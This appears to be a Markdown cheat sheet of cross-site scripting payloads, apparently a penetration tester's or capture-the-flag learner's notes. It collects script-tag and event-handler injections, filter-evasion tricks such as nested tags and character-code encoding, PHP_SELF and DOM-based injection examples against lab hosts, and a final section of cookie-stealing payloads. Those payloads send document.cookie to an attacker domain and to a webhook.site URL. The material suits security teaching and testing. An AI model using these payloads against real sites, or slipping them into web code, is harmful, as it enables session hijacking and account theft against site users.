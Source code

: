 # XSS : Cross Site Scripting

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
https://quanyang.github.io/the-abcs-of-xss/


### Templates

<script src="https://gist.github.com/jossets/069ec356de6f73e16b88f07c79728565.js"></script>

### Basic
```html
<script>alert(1);</script>
```

### Filter : script tag
```html
<sRript>alert(1);</sCript>
```
### Remove : script tag
```html
<scr<script>ipt>alert(1);</sc</script>ript>
```

```
http://12.0.0.11/xss/example3.php?name=<scr<script>ipt>alert(1);</sc</script>ript>
http://12.0.0.11/xss/example3.php?name=%3Cscr%3Cscript%3Eipt%3Ealert(1);%3C/sc%3C/script%3Eript%3E
```


### Embed JS

Detect : use ', "
666 lines of JS : https://gist.github.com/JohannesHoppe/5612274

- with the <a tag directly in the URL. You will need to click the link to trigger the JavaScript code.
```` html
    <a href='javascript:alert(1)' /> 
````
- with the <img> tag and the event onerror.
```html
    <img src='zzzz' onerror='alert(1)' />
```
- with the <div tag and the following events: onmouseover, onmouseout, onmousemove, onclick...




### Convert to Ascii code
https://www.browserling.com/tools/text-to-ascii
````
alert(1) => 97,108,101,114,116,40,49,41
<script>eval(String.fromCharCode( 97,108,101,114,116,40,49,41));</script>
````

### PHP : Abusing $_SERVER['PHP_SELF'];
$_SERVER['PHP_SELF'] = URL base request. 
````html
<form method="post" action="<?php echo $_SERVER['PHP_SELF']; ?>">

GET http://12.0.0.11/xss/example8.php/bob"><script>alert(1)</script><
=>
<?php bob"> <script>alert(1)</script> <?>
````

### Abusing DOM
````html
GET http://ptl-bf67ed09-7529df2e.libcurl.so/index.php#bob
<p>Welcome <script>document.write(decodeURIComponent(location.hash.substring(1)));</script></p>
Welcome bob
GET http://ptl-bf67ed09-7529df2e.libcurl.so/index.php#</script>>script>alert(1)</script>
````


## XSS payload client


### Steal cookies
````javascript
    (new Image()).src = "http://www.evil-domain.com/steal-cookie?cookie=" + document.cookie;
````
````html
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
````

Send cookies to webhook : https://webhook.site/
Once the browser renders the JavaScript the <img tag should look like:
````<img src="[URL]?c=[COOKIE]"/>````
And it will send the cookies to your website.
Make sure you don't forget to encode the + in the URL (%2b).
````html
<script>document.write('<img 
src="https://webhook.site/83c6be25-52d2-47a3-ba2f-6615b183fdbc?c='%2bdocument.cookie%2b'" />');</script>

````
